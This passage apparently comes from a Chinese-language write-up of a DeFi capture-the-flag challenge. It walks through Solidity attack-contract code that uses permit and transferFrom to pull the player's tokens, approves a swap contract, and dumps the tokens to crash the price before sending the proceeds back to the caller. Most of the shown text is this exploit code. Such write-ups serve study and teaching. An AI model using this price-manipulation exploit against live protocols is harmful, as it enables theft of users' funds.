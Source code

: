 ```solidity
        
        token.functionCall(abi.encodeWithSignature(
            "transfer(address,uint256)",
            msg.sender,
            playerToken
        ));
        payable(msg.sender).transfer(address(this).balance);
    }

    receive() external payable {

    }

}
```

我们逐步来解析，以下通过permit完成在合约中的代授权并转账（其实我觉得在攻击时，这一步能拆开）

```solidity
        token.functionCall(abi.encodeWithSignature(
            "permit(address,address,uint256,uint256,uint8,bytes32,bytes32)",
            msg.sender,
            address(this),
            type(uint256).max,
            type(uint256).max,
            v,r,s
        ));
        token.functionCall(abi.encodeWithSignature(
            "transferFrom(address,address,uint256)",
            msg.sender,
            address(this),
            playerToken
        ));
```

以下approve完成通证授权给swap，并通过swap实现“砸盘”

```solidity
		token.functionCall(abi.encodeWithSignature(
            "approve(address,uint256)",
            swap,
            playerToken
        ));

		swap.call(
            abi.encodeWithSignature(
            "tokenToEthSwapInput(uint256,uint256,uint256)", 
            playerToken,
            1,
            type(uint256).max
            )
        );
```
